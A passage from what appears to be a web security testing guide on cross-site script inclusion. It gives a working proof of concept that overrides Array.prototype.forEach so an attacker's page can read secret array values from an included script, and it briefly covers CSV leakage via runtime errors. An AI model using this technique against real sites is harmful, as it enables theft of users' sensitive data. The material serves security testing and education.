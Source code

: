 When the browser tries to render the CSV content as JavaScript, it fails and leaks the sensitive data:

![JavaScript runtime error message ](images/XSSI1.jpeg)

### 5. Sensitive Data Leakage via Prototype Chaining Using `this`

In JavaScript, the `this` keyword is dynamically scoped. This means if a function is called upon an object, `this` will point to this object even though the called function might not belong to the object itself. This behavior can be used to leak data. In the following example from [Sebastian Leike's demonstration page](http://sebastian-lekies.de/leak/), the sensitive data is stored in an Array. An attacker can override `Array.prototype.forEach` with an attacker-controlled function. If some code calls the `forEach` function on an array instance that contains sensitive values, the attacker-controlled function will be invoked with `this` pointing to the object that contains the sensitive data.

Here is an excerpt of a JavaScript file containing sensitive data, `javascript.js`:

```javascript
...
(function() {
  var secret = ["578a8c7c0d8f34f5", "345a8b7c9d8e34f5"];

  secret.forEach(function(element) {
    // do something here
  });  
})();
...
```

The sensitive data can be leaked with the following JavaScript code:

```javascript
...
 <div id="result">

    </div>
    <script>
      Array.prototype.forEach = function(callback) {
        var resultString = "Your secret values are: <b>";
        for (var i = 0, length = this.length; i < length; i++) {
          if (i > 0) {
            resultString += ", ";
          }
          resultString += this[i];
        }
        resultString += "</b>";
        var div = document.getElementById("result");
        div.innerHTML = resultString;
      };
    </script>
```